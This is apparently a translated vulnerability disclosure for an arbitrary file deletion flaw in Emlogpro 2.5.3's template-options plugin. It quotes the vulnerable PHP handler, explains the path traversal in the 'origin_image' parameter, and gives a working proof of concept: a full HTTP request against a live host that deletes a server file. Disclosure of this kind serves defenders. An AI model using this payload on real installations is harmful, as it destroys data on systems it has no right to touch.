




Here's the translation of your text to English while keeping the markdown format unchanged:

---

## Emlogpro 2.5.3 Arbitrary File Deletion Vulnerability

EMLOG is a lightweight open-source blogging and CMS building system that is fast, resource-efficient, and easy to use, making it suitable for websites of various sizes.

A serious vulnerability exists in the latest version 2.5.3 of Emlogpro, where the file `content\plugins\tpl_options\actions\tpl.php` has path traversal and parameter control, allowing arbitrary file deletion.

### Solution Recommendation
It is recommended to update your current system or software to the latest version to fix this vulnerability.

### Vulnerability Analysis
The vulnerable file `content\plugins\tpl_options\actions\tpl.php` is as follows:
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: Template setting plugin AJAX handler.
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo 'Insufficient permissions!';
    exit;
}

// Handle AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo 'Operation failed, please refresh the page!';
    exit;
}

// Handle AJAX request
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"File upload failed"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    // Delete old image
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
The main function of this code is to upload new images and delete old ones.

We can control the `origin_image`, which refers to the old image path. The final `unlink` path is constructed with the following condition:
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
The path is then concatenated with:
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
So, we can use path traversal to delete arbitrary files, such as `config.php`:
```r
http://localhost/content/uploadfile/../../config.php
```

### Attacking the Server

First, create a `file.txt` in the app directory of the container (which will be deleted later using the vulnerability).


Log in as an administrator.
Click on Appearance -> Template -> Click on the Header Settings of the Default Template -> Upload any image.


Intercept the request using Burp Suite and change the `origin_image` to the exploit URL:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

Complete HTTP request:
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

Screenshot:


After executing the request, we see that the file was successfully deleted:


---
